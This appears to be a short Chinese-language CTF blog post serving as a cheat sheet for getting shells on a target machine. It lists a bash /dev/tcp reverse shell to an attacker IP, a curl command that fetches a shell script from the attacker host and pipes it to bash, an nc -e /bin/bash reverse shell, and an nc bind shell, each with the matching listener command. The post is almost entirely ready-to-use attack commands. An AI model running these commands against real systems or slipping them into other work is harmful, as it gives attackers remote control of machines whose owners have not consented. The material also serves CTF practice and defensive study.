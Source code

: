 ```yaml
---
tags: []
categories:
  - CTF-WEB
date: 2020-03-26 14:45:00
cover: /img/post/10.jpg
---
```


---
说明：端口可任意，但要保持一致而且不能被占用，以下均为攻击机登录被攻击机

# bash连接

```bash
攻击机器输入 nc -lvp 7777

被攻击机器输入bash -i >& /dev/tcp/攻击机ip/7777 0>&1  
```

然后攻击机器就相当于登陆了了被攻击机器

# curl连接

```bash
在攻击机根目录下创建shell.txt,内容为bash -i >& /dev/tcp/攻击机ip/7777 0>&1

//注意shell.txt不是在服务器根目录，而是例如/var/www/html下
被攻击机执行curl 攻击机ip/shell.txt|bash  //先curl获得shell.txt的内容然后用bash执行
```

# nc连接

说明：用nc连接成功后不会出现类似bash连接那种开头的root@kali这种，可用pwd检测是否连接成功

### 利用攻击机ip

```bash
攻击机输入 nc -lvp 7777

被攻击机输入 nc -e /bin/bash 攻击机ip 7777
```
### 利用被攻击机ip

**其他都是需要攻击机ip，这个则相反。我的理解是需要攻击机ip的相当于把shell弹给攻击机(所以攻击机ip和bash在一行代码)，而这个相当于在本地端口开个shell,攻击机访问端口来拿shell**

```bash
攻击机输入 nc 被攻击机ip 7777

被攻击机输入  nc -lvp 7777 -e /bin/bash
```

### 
